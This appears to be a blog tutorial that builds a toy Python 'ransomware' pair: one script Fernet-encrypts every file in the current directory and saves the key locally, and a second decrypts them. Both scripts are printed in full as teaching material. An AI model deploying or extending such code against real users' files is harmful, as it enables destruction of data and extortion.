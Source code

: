 # Simple Python Ransomware
<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>Introduction</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><em>For educational purposes only</em></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This article showcases a simple python ransomware one can create in order to educate on the concepts of malware. It consists of utilizing the following python modules:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>os <a href="https://docs.python.org/3/library/os.html" data-type="URL" data-id="https://docs.python.org/3/library/os.html" target="_blank" rel="noreferrer noopener">https://docs.python.org/3/library/os.html</a></li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>cryptography</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Fernet <a href="https://cryptography.io/en/latest/fernet/" data-type="URL" data-id="https://cryptography.io/en/latest/fernet/" target="_blank" rel="noreferrer noopener">https://cryptography.io/en/latest/fernet/</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:paragraph -->
<p>The program is conducted in the Linux environment and it is advisable to test this program in a virtual machine.</p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part I</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>First let's create some files to be encrypted for this program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4016,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-14.png?w=1024" alt="" class="wp-image-4016"/><figcaption class="wp-element-caption">3 text files as an example.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's start writing out script.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This part of the program finds actual files in the directory and adds them to a list.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4018,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-15.png?w=1024" alt="" class="wp-image-4018"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>os.listdir() function </em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4021,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-17.png?w=801" alt="" class="wp-image-4021"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4019,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-16.png?w=802" alt="" class="wp-image-4019"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>3</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Import the key to encrypt the files.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4025,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-19.png?w=727" alt="" class="wp-image-4025"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4023,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-18.png?w=718" alt="" class="wp-image-4023"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Generate the encryption key.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4027,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-20.png?w=1024" alt="" class="wp-image-4027"/><figcaption class="wp-element-caption"><em>**Remember to delete the print(key) once done testing.**</em></figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4029,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-21.png?w=818" alt="" class="wp-image-4029"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>4</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Save the generated key in a file and add the key file to not be encrypted in the program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4030,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-22.png?w=1024" alt="" class="wp-image-4030"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Test the newly added lines</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4031,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-23.png?w=1024" alt="" class="wp-image-4031"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>5</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's add the encryption code.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4035,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-25.png?w=1024" alt="" class="wp-image-4035"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet encryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4038,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-26.png?w=686" alt="" class="wp-image-4038"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Files are encrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4033,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-24.png?w=1024" alt="" class="wp-image-4033"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full encryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

key = Fernet.generate_key()

with open("encrypt.key","wb") as encryptkey:               # Make a file with write permissions
        encryptkey.write(key)                              # Write the encrypt key to the file

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                 # Read the files
        targets_encrypted = Fernet(key).encrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                 # Write the files
                contents.write(targets_encrypted)         # Write the encrypted data to the files
</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part II</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's create our decrypt program which is similar to our encrypt program.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Copy the encrypt program to a new file calldecrypt.py.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4040,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-27.png?w=1024" alt="" class="wp-image-4040"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Edit the file with the following:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Remove the generate key function</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Save the encryption key to a new variable</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Edit the Fernet function to decrypt </li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Change the write function to the decrypted content</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4046,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-30.png?w=1024" alt="" class="wp-image-4046"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet decryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4050,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-32.png?w=699" alt="" class="wp-image-4050"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong><em>**Before running the decrypt program , remember to add decrypt.py file to the file list**</em></strong></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4045,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-29.png?w=1024" alt="" class="wp-image-4045"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full decryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key' or file =='decrypt.py':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

with open("encrypt.key","rb") as key:                           # Add the key to a variable secretkey
        secretkey = key.read()

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                       # Read the files
        targets_decrypted = Fernet(secretkey).decrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                       # Write the files
                contents.write(targets_decrypted)               # Write the encrypted data to the files</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:paragraph -->
<p>Files are decrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4047,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-31.png?w=1024" alt="" class="wp-image-4047"/></figure>
<!-- /wp:image -->

